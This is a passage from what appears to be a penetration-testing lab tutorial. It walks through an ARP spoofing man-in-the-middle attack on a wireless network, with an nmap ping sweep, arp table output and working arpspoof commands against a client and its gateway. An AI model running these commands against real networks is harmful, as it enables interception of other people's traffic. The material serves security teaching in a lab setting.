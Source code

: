 wlan0: flags=4163&lt;UP,BROADCAST,RUNNING,MULTICAST&gt;  mtu 1500
        inet 200.200.200.62  netmask 255.255.255.0  broadcast 200.200.200.255
        inet6 fe80::9d20:8a4a:a68e:a9bd  prefixlen 64  scopeid 0x20&lt;link&gt;
        ether 02:00:00:00:01:00  txqueuelen 1000  (Ethernet)
        RX packets 2374  bytes 467896 (467.8 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 7438  bytes 817312 (817.3 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
</code></pre>
<p>From the output above, the assigned IP address is <code>200.200.200.62</code>, and the MAC address of the interface is <code>02:00:00:00:01:00</code>.</p>
<p>Next, we can use nmap to scan the network and identify all active clients.</p>
<pre><code class="language-shell-session">[!bash!]$ sudo nmap -v -n -sn  200.200.200.0/24  | awk '/is up/ {print up}; {gsub (/\(|\)/,""); up = $NF}'

200.200.200.1
200.200.200.58
200.200.200.59
200.200.200.60
200.200.200.62
</code></pre>
<p>Let's assume our target client has the IP address <code>200.200.200.60</code>. Before performing an ARP spoofing attack, if we log in to the client device and run <code>arp -a</code>, we would see the following output, showing that the MAC address for the gateway <code>200.200.200.1</code> is <code>52:cd:8c:79:ad:87</code>.</p>
<pre><code class="language-shell-session">[!bash!]$ arp -a

captive.htb.local (200.200.200.1) at 52:cd:8c:79:ad:87 [ether] on wlan0
? (192.168.2.1) at &lt;incomplete&gt; on wlan0
</code></pre>
<p>We can now use arpspoof to perform an ARP spoofing attack:</p>
<p><code>arpspoof -i wlan0 -t &lt;clientIP&gt; &lt;gatewayIP&gt;</code></p>
<p><code>arpspoof -i wlan0 -t &lt;gatewayIP&gt; &lt;clientIP&gt;</code></p>
<p>The first command tricks the client into thinking the attacker's MAC address belongs to the gateway, while the second command deceives the gateway into believing the attacker's MAC address belongs to the client, establishing a Man-in-the-Middle (MITM) position.</p>
<pre><code class="language-shell-session">[!bash!]$ sudo arpspoof -i wlan0 -t 200.200.200.60 200.200.200.1

2:0:0:0:1:0 2:0:0:0:3:0 0806 42: arp reply 200.200.200.1 is-at 2:0:0:0:1:0
2:0:0:0:1:0 2:0:0:0:3:0 0806 42: arp reply 200.200.200.1 is-at 2:0:0:0:1:0
2:0:0:0:1:0 2:0:0:0:3:0 0806 42: arp reply 200.200.200.1 is-at 2:0:0:0:1:0
2:0:0:0:1:0 2:0:0:0:3:0 0806 42: arp reply 200.200.200.1 is-at 2:0:0:0:1:0
2:0:0:0:1:0 2:0:0:0:3:0 0806 42: arp reply 200.200.200.1 is-at 2:0:0:0:1:0
2:0:0:0:1:0 2:0:0:0:3:0 0806 42: arp reply 200.200.200.1 is-at 2:0:0:0:1:0
2:0:0:0:1:0 2:0:0:0:3:0 0806 42: arp reply 200.200.200.1 is-at 2:0:0:0:1:0
2:0:0:0:1:0 2:0:0:0:3:0 0806 42: arp reply 200.200.200.1 is-at 2:0:0:0:1:0
2:0:0:0:1:0 2:0:0:0:3:0 0806 42: arp reply 200.200.200.1 is-at 2:0:0:0:1:0
2:0:0:0:1:0 2:0:0:0:3:0 0806 42: arp reply 200.200.200.1 is-at 2:0:0:0:1:0
2:0:0:0:1:0 2:0:0:0:3:0 0806 42: arp reply 200.200.200.1 is-at 2:0:0:0:1:0
</code></pre>
<pre><code class="language-shell-session">[!bash!]$ arpspoof -i wlan0 -t 200.200.200.1 200.200.200.60
